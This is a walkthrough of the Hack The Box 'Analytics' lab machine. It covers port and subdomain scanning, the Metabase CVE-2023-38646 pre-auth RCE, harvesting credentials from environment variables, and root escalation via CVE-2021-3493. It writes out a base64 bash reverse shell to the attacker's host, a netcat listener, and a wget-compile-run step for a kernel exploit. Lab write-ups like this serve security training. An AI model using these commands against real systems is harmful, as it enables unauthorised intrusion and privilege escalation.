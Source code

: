 # HTB Machine Walkthrough: Analytics

  

---
> [!IMPORTANT]
> **Please use this as a hint or guide if you're blocked at some point of this machine. I make these files for myself and to help some friends that are also doing these machines.**
--- 
---
> [!NOTE]
> **Try to get as far as you can by yourself or you will never learn to solve machines alone. Hope you the best and happy hacking <3.**
---

  

## 1. Fast Nmap Scan on the Provided IP

Start by scanning all ports to identify the open ones:

```bash
nmap -sS -p- --min-rate 5000 $machine_ip -vvv -oN nmap.txt
```

This reveals ports 22 (SSH) and 80 (HTTP) are open. ( I try to save the scan results just in case i need something of it later )

## 2. Recognition


Perform a service detection scan to identify versions and services:

```bash
nmap -p22,80 -sCV $machine_ip -vvv -oN serv_recon.txt
```

The results show that port 80 hosts an `nginx/1.18.0` server that redirects to `http://analytical.htb/`.

To discover subdomains, use FFUF:

```bash

ffuf -u  http://$machine_ip -H "Host: FUZZ.analytical.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac

```

A subdomain `data.analytical.htb` is identified, which reveals a Metabase login page when accessed.

  

## 3. Exploit Phase

  

### Exploiting CVE-2023-38646

  

Metabase is vulnerable to a pre-authenticated remote code execution vulnerability.

Retrieve the `setup-token` using the API endpoint:

```bash

curl http://data.analytical.htb/api/session/properties -s | jq -r '."setup-token"'

```
Prepare a reverse shell payload:

```bash

echo 'bash -i >& /dev/tcp/$YourMachine_IP/$NC_ListenerPort 0>&1' | base64

```
Start a netcat listener to capture the reverse shell:

```bash

nc -lnvp $NC_ListenerPort

```

Use Burp Suite or curl to send a crafted POST request to exploit the vulnerability. This provides access as the `metabase` user in a Docker container.

  

## 4. Privilege Escalation to "metalytics"

Inspect environment variables to find credentials (linpeas also works) :
```bash
env
```

The variables reveal credentials for the user `metalytics`. Use SSH to log in:
```bash
ssh  metalytics@$machine_ip
```
Now as user, retrieve and submit the user flag
```bash
cat user.txt
```
## 5. Privilege Escalation to Root

Check the kernel version for known vulnerabilities:
```bash
uname  -r
```

For this machine, [CVE-2021-3493](https://github.com/briskets/CVE-2021-3493/tree/main) so you just have to get into the repository and follow the steps to take advantage of this vector.
  

On your local machine open a simple http server with python so you can send the file to the target:

```bash
python3  -m  http.server  8080
```

  

On the target machine, get the expoit, compile it with gcc and execute it:

```bash
wget  http://10.10.14.101:8080/exploit.c

gcc  exploit.c  -o  exploit

./exploit
```
Now you should be root user, now just retrieve the root flag and submit it.

```bash

cat  /root/root.txt

```

  

---

**Congratulations: Machine completed**

---
